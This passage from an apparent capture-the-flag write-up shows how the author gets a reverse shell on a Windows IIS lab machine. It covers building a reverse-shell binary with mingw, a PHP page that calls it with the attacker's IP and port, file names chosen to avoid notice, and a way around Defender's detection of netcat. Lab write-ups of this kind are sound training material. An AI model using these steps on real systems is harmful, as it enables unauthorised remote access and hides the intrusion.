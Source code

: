 Let's try to get it by surfing to http://10.10.10.97:8808/test.txt
![there it is](screenshots/10_get_test_file.png)

We have write access to this site, which means we should be able to upload a file that creates a reverse shell for us.  Because Windows Defender has known about netcat for over 10 years<sup>[3]</sup>, I would rather use something else.  Of course, we could change the signature of our copy of netcat then upload that.  I would like to expand the number of tools in my toolbox, and I stumbled across one I would like to try called Simple Reverse Shell<sup>[4]</sup>.  We can even compile it in Linux.

```bash
git clone https://github.com/infoskirmish/Window-Tools/
cd "Window-Tools/Simple Reverse Shell"

# These commands are in compile.sh, but I wanted to explain them a bit
# If you do not care about the explanation, you can run ./compile.sh shell

# We will be using the mingw compiler for Linux to make a Windows binary
# Most of the options are the same as they are for gcc
# -c: just compile the code, do not link it (we will link it later)
# -O3: optimize for code size and execution time - 3 is the highest
# -march=i686: Compile a 32-bit binary.  This box is most likely 64-bit, but 32-bit is the safest
i686-w64-mingw32-gcc -c -O3 -march=i686 shell.c

# The command above produces an object file called shell.o

# Take shell.o and link it to the winsock2 library (-lws2_32) - -Wl says pass the option to the linker
i686-w64-mingw32-gcc shell.o -o shell.exe -O3 -march=i686 -Wl,-lws2_32
```

We will also need a quick page to run our executable.  We can use ASP since we are running on IIS or PHP since we know PHP is installed.  I am going to use the following PHP code to execute our shell:
```php
<?php
    system("shell.exe <your IP> <port you are listening on>");
?>
```

I called the exe and php ```iishelper.exe``` and ```iishelper.php``` respectively to be a tiny bit stealthy.  We can upload them with smbclient:
![upload](screenshots/11_upload_shell.png)

[1]: https://www.owasp.org/index.php/Testing_for_SQL_Injection_(OTG-INPVAL-005) "Testing for SQL Injection (OTG-INPVAL-005)"
[2]: https://en.wikipedia.org/wiki/Bcrypt "Bcrypt - Wikipedia"
[3]: https://www.microsoft.com/en-us/wdsi/threats/malware-encyclopedia-description?Name=HackTool:Win32/NetCat "HackTool:Win32/Netcat"
[4]: https://github.com/infoskirmish/Window-Tools/tree/master/Simple%20Reverse%20Shell "Simple Reverse Shell"
[5]: https://docs.microsoft.com/en-us/windows/wsl/user-support "Linux User Account and Permissions | Microsoft Docs"